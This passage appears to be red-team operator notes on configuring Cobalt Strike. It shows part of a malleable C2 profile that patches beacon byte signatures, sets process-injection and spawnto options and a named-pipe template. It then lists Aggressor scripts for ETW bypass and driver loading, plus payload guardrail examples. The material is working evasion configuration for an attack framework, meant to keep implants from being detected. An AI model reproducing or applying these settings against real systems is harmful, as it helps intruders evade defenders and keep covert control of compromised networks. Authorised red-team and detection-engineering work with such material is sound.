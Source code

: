 ```
                strrep "(admin)" "(adm1n)";
                strrep "%s as %s\\%s: %d" "%s - %s\\%s: %d";
                strrep "\x25\xff\xff\xff\x00\x3D\x41\x41\x41\x00" "\xB8\x41\x41\x41\x00\x3D\x41\x41\x41\x00";
                # strrep "\x4D\x5A\x41\x52\x55\x48\x89\xE5\x48\x81\xEC\x20\x00\x00\x00\x48\x8D\x1D\xEA\xFF\xFF\xFF\x48\x89\xDF\x48\x81\xC3\xD4\x88\x01\x00\xFF\xD3\x41\xB8\xF0\xB5\xA2\x56\x68\x04\x00\x00\x00\x5A\x48\x89\xF9\xFF\xD0" "\x4D\x5A\x48\x8D\x1D\xF8\xFF\xFF\xFF\x41\x52\x48\x83\xEC\x28\x48\x89\xDF\x48\x81\xC3\x52\xB7\x00\x00\x48\x81\xC3\x52\xB7\x00\x00\xFF\xD3\x48\xC7\xC2\x04\x00\x00\x00\x48\x89\xF9\xFF\xD0";
        }
}

process-inject {
        set startrwx "false";
        set userwx "false";
        set bof_reuse_memory "false";
        set allocator "NtMapViewOfSection";
}

post-ex {
        # Fork and Run Memory Allocations
        set obfuscate "true";
        set cleanup "true";
		
        # SpawnTo
        set spawnto_x86 "c:\\windows\\syswow64\\cmd.exe";
        set spawnto_x64 "C:\\program files (x86)\\microsoft\\edge\\application\\msedge.exe";
		
        # SMB Named Pipes Names
        # include pound (#) for random hex digit
        set pipename "TSVCPIPE-########-####-####-####-############";
}
```
`cd ~/cobaltstrike`
check for errors: `./c2lint c2-profiles/custom/custom.profile`
#### Aggressor Scripts
`C:\Tools\cobaltstrike\process-inject\processinject.cna`
powerpick and execute-assembly etw bypass
`C:\Tools\InlineExecute-Assembly\inlineExecute-Assembly\inlineExecute-Assembly.cna`
`C:\Tools\RedOctober\RedOctober.cna`
`C:\Tools\cobaltstrike\gdrv\gdrv.cna`
`C:\Tools\cobaltstrike\ppenum\ppenum.cna`
`C:\Tools\cobaltstrike\sleepmask\sleepmask.cna`
#### Payload Guardrails
when creating a listener, to the right of Guardrails, click `...`
**Examples**
- IP Address: `10.10.*.*`
- User Name (case sensitive): `svc_*`
- Server Name (case sensitive)
- Domain (case sensitive): `*.acme.corp`
## Post-Exploitation
